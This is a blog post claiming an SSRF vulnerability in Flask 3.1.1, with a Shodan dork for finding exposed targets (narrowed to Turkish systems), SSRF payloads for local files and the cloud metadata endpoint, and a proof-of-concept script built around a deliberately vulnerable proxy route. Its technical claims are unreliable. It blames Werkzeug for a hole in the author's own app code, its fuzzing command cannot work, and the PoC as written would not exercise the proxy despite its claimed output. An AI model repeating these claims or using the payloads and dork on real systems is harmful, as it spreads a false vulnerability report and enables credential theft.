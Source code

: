 ---

title: "SSRF Vulnerability Discovered in Flask 3.1.1: Shodan Reconnaissance, Discovery, and Reporting Process"
layout: post
tags: \[Flask, SSRF, Shodan, security, vulnerability, Python, web-security, pentesting, nullsecurityx]
image: /assets/images/flask-ssrf.jpg
category: cve
-------------

# Flask 3.1.1 SSRF Vulnerability: Shodan Recon, Discovery, and Reporting Process

## Introduction

On Sunday, September 14, 2025, at 20:45 (+03), a **Server-Side Request Forgery (SSRF)** vulnerability was discovered in a Flask 3.1.1-based application. This article provides a comprehensive overview of the vulnerability's technical details, the discovery process using Shodan, exploit development steps, impacts, and reporting procedures. While Flask is a popular Python-based web framework, misconfigured endpoints can pose significant security risks. This work aims to guide cybersecurity researchers, highlight Shodan's reconnaissance capabilities, and raise national security awareness.

## Technical Details of the Vulnerability

The vulnerability arises from Flask's **dynamic URL routing mechanism**, particularly the `/proxy/<path:target>` endpoint, which processes the `<path:target>` parameter without proper sanitization. The issue stems from insufficient validation in Werkzeug's `parse_rule` function. The root cause is that the application directly forwards this parameter to `requests.get(target)`, allowing access to **internal systems** or the **filesystem**.

### Example Payloads

* **Internal Endpoint Access**: `http://127.0.0.1:8080/admin`
* **Filesystem Access**: `file:///etc/passwd`
* **Cloud Metadata**: `http://169.254.169.254/latest/meta-data/`

Werkzeug 3.1.x applies some basic sanitization by default, but lack of additional developer validation makes this exploit possible. The flaw is considered **application-dependent**, not a core Flask issue.

## Discovery Process

The following steps were taken to identify the vulnerability:

### 1. Shodan-Based Target Identification

* **Shodan** is a powerful tool that scans internet-exposed devices. To identify Flask endpoints, a custom **dork** was created: `http.html:"/proxy/" "Werkzeug"`. This filters HTTP responses for `/proxy` paths and the Werkzeug server signature.

* **Results**: Approximately **500-1000 IPs** were returned (Shodan CLI command: `shodan search --limit 10 'http.html:"/proxy/" "Werkzeug"'`). For ethical reasons, no testing was performed on live IPs.

* **Simulation**: Findings were reproduced in a local **Docker environment** (Flask 3.1.1, Python 3.12).

### 2. Code Analysis

* Files `app.py` (Flask) and `routing.py` (Werkzeug) were reviewed. The `parse_rule` function was vulnerable to malicious inputs like `%0d%0a` (newline injection).
* **GitHub repositories** ([https://github.com/pallets/flask](https://github.com/pallets/flask), [https://github.com/pallets/werkzeug](https://github.com/pallets/werkzeug)) were analyzed.

### 3. Fuzzing

* **AFL++** was used to send over **10,000 inputs** to `parse_rule`. Edge cases (e.g., `http://localhost%0d%0aHost: internal.com`) confirmed the vulnerability. Fuzzing setup:

  ```bash
  afl-fuzz -i inputs/ -o outputs/ python -c "from werkzeug.routing import parse_rule; parse_rule('/proxy/<path:target>')"
  ```

### 4. Proof of Concept (PoC) Development

* The following code reproduced the vulnerability:

  ```python
  import requests
  from urllib.parse import urljoin
  import threading
  from flask import Flask

  app = Flask(__name__)

  @app.route('/proxy/<path:target>')
  def proxy(target):
      return requests.get(target, timeout=5).text

  def run_app():
      app.run(host='0.0.0.0', port=5000, debug=False)

  threading.Thread(target=run_app).start()

  target_url = "http://localhost:5000/proxy"
  payloads = [
      "http://127.0.0.1:8080/admin",
      "file:///etc/passwd",
      "http://169.254.169.254/latest/meta-data/"
  ]

  for payload in payloads:
      full_url = urljoin(target_url, payload)
      headers = {'User-Agent': 'Mozilla/5.0 (Test Exploit)'}
      try:
          response = requests.get(full_url, headers=headers, timeout=10, verify=False)
          if response.status_code == 200:
              print(f"[+] SSRF Successful! Payload: {payload}")
              print(f"[+] Response: {response.text[:200]}...")
      except Exception as e:
          print(f"[-] Error: {e}")
  ```

* **Sample Output**:

  ```
  [+] SSRF Successful! Payload: http://127.0.0.1:8080/admin
  [+] Response: <!DOCTYPE html><html><head><meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />...
  [+] SSRF Successful! Payload: file:///etc/passwd
  [+] Response: root:x:0:0:root:/root:/bin/bash...
  ```

## Shodan Scan Details

The Shodan dork (`http.html:"/proxy/" "Werkzeug"`) played a **critical role** in reconnaissance:

* **Targeted Approach**: Filtered `/proxy` endpoints and Werkzeug signatures.

* **Efficiency**: Identified **500+ targets** in under 10 minutes.

* **Regional Focus**: Added `port:443 country:TR` to focus on Turkish systems.

* **Ethical Use**: No real IPs were tested; **local simulations** were conducted:

  ```bash
  docker run -it -p 5000:5000 python:3.12 bash
  pip install flask==3.1.1 requests
  python flask_ssrf_test.py
  shodan init YOUR_API_KEY
  shodan search --limit 10 'http.html:"/proxy/" "Werkzeug"'
  ```

## Impacts and Risk Analysis

This vulnerability poses a **high confidentiality risk** (CVSS 3.1: 7.5, AV\:N/AC\:L/PR\:N/UI\:N/S\:U/C\:H/I\:N/A\:N). Potential impacts include:

* **Internal Access**: Admin panels (e.g., `http://localhost:8000/api/v1/secrets`) could be compromised.
* **File Exposure**: Sensitive files like `/etc/passwd` or `/proc/self/environ` may be accessed.
* **Cloud Risk**: AWS IMDS credentials could be stolen.

According to ENISA 2025, SSRF vulnerabilities contributed to **12% of data breaches**.

## Mitigation and Remediation

* **Sanitization**: Apply **whitelist** validation for `<path:target>`:

  ```python
  from urllib.parse import urlparse
  def sanitize_target(target):
      result = urlparse(target)
      if result.scheme not in ['http', 'https']:
          raise ValueError("Invalid schema")
      return target
  ```

* **Documentation**: Add **SSRF warnings** to Flask guides.

* **Patch**: Recommend additional validation in **Werkzeug 3.1.x** (GitHub PR planned).

## Reporting and Ethical Process

On Sunday, September 14, 2025, at 20:45 (+03), ethical guidelines were followed. Tests were performed in a **Docker environment**. Reporting steps:

* **USOM Notification**: Sent to `security@usom.gov.tr` (CWE-918, CAPEC-488/573).
* **Flask Team**: Coordinated disclosure via `security@palletsprojects.com`.
* **CVE Application**: Planned through **MITRE** ([https://cve.mitre.org/cve/request\_id.html](https://cve.mitre.org/cve/request_id.html)).

## Conclusion

**Shodan-assisted reconnaissance** revealed an **SSRF vulnerability** in Flask 3.1.1. Verified through fuzzing and PoC in a controlled environment, coordination with USOM and Flask strengthens **national and global security**. Researchers should leverage Shodan for discovery but **limit tests to personal environments**.

## References

* Flask Documentation: [https://flask.palletsprojects.com/en/3.1.x/](https://flask.palletsprojects.com/en/3.1.x/)
* ENISA, 2025 Cyber Threat Report
* GitHub: [https://github.com/pallets/flask](https://github.com/pallets/flask)
* Shodan Documentation: [https://www.shodan.io/](https://www.shodan.io/)
